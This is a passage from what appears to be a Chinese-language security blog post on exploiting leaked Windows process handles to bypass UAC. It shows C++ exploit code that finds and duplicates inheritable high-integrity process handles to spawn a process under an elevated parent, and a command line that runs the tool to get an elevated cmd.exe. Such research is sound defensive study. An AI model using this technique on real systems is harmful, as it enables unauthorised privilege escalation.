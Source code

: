 ```c++
			handleInfo.GrantedAccess & PROCESS_CREATE_THREAD ||
			handleInfo.GrantedAccess & PROCESS_DUP_HANDLE ||
			handleInfo.GrantedAccess & PROCESS_VM_WRITE))
		{
			continue;
		}

		// We are only interested in the nherited handle.
		if (!(handleInfo.HandleAttributes & HANDLE_INHERIT)) 
		{
			continue;
		}

		// Get Child Process Integrity.
		GetProcessIntegrityLevel(handleInfo.UniqueProcessId, &processIntegrity);
		// Get Parent Process Integrity.
		GetProcessIntegrityLevel(parentUniqueProcessId, &parentProcessIntegrity);
		// We are only interested in processes whose integrity level is less than its parent process, and less than or equal to medium level
		if (processIntegrity < parentProcessIntegrity && processIntegrity <= MEDIUM_INTEGRITY)
		{
			HANDLE parentProcessHandle = DuplicateProcessHandle(handleInfo);
			
			if (Exploit_Process_Create_Process(parentProcessHandle, lpCommandLine))
			{
				printf("[+] Exploit Success.\n");
			}
			
			CloseHandle(parentProcessHandle);
		}
	}
}
```

在上述代码中，我们首先通过 `QueryAllSystemHandlers()` 函数获取系统中所有的句柄，然后过滤出所有符合以下条件的句柄：

- 该句柄是一个进程句柄。
- 该句柄授予句柄持有者特殊权限，即上文中我们提到的 Interesting Handles。
- 该句柄所指向的进程的完整性级别小于其父进程的完整性级别，并且小于等于中等完整性级别。

过滤出符合上述条件的句柄后，我们通过 `DuplicateProcessHandle()` 函数获取该句柄的副本并传入 `Exploit_Process_Create_Process()` 函数，使用该句柄指向的进程作为父进程来创建新进程。

### Let’s see it in action

如下图所示，运行 ExploitLeakedHandles.exe 后，成功获取获取到了一个绕过 UAC 的命令行：

```console
C:\Users\whoami\Desktop> ExploitLeakedHandles.exe -c cmd.exe
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220502134513911.png)

## Ending......

参考文献：

> http://dronesec.pw/blog/2019/08/22/exploiting-leaked-process-and-thread-handles/
>
> https://aptw.tf/2022/02/10/leaked-handle-hunting.html
>
> https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/leaked-handle-exploitation

